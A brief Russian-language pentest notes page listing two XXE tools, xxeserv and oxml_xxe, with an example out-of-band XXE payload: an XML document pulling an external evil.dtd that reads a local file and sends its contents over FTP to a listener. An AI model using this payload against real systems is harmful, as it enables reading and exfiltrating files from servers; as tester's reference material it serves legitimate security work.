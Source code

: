 # Tools

## xxeserv

ftp server для отлова xxe (Go): [https://github.com/staaldraad/xxeserv](https://github.com/staaldraad/xxeserv)

пример использования

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE dtd_test [<!ENTITY % sp SYSTEM "http://127.0.0.1:9393/evil.dtd"> %sp; %param1; %param2; ]>
<dtd_test>&exfil;</dtd_test>
```

evil.dtd

```markup
<!ENTITY % data SYSTEM "file:///Users/o.petrakov/Work/pentest/projects/unicredit_web_08_2020/scripts/socket.io/test.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://127.0.0.1:2121/%data;'>">
<!ENTITY % param2 "<!ENTITY exfil2 SYSTEM 'file:///Users/'>">
```

## oxml\_xxe

сгенерировать документы и картинки с xxe нагрузкой: [https://github.com/BuffaloWill/oxml\_xxe](https://github.com/BuffaloWill/oxml\_xxe)
